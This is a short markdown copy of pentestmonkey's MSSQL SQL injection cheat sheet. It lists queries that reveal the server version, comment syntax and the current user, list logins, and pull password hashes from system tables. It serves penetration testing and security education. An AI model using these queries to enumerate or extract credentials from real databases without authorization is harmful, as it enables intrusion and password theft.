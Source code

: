 # MSSQL Injection Cheat Sheet

_source: [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)_

Some useful syntax reminders for SQL Injection into MSSQL databases…

This post is part of a series of SQL Injection Cheat Sheets.  In this series, I’ve endevoured to tabulate the data to make it easier to read and to use the same table for for each database backend.  This helps to highlight any features which are lacking for each database, and enumeration techniques that don’t apply and also areas that I haven’t got round to researching yet.


## Version
```
SELECT @@version
```

## Comments
```
SELECT 1 --comment
SELECT /*comment*/1
```

## Current User
```
SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID
```

## List Users
```
SELECT name FROM master..syslogins
```

## List Password Hashes
```
SELECT name, password FROM master..sysxlogins — priv, mssql 2000;

SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins
    — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.

SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005;

SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005
```
